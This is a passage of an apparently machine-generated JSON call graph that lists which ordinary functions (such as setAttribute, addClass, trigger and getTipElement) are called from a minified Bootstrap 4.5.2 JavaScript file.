"findShadowRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getUID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getAttachment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addAttachmentClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "appendTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_fixTransition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_cleanTipClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "destroy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "scheduleUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setElementContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "html"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "empty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_handlePopperPlacementChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_handlePopperPlacementChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toggle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_leave"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_fixTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_isWithActiveTrigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_cleanTipClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addAttachmentClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTipElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setElementContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setElementContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_process"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getScrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getScrollHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getUID"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "attr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getScrollTop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getScrollHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getOffsetHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "parents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "prev"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getSelectorFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "makeArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_activate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "children"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_transitionComplete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hasClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "addClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_getConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_setListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "reflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "isDefaultPrevented"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "_clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "contains"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "off"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "removeData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "data"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "typeCheckConfig"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "trigger"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "getTransitionDurationFromElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "one"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "emulateTransitionEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/bootstrap-4.5.2.min.js", "target": 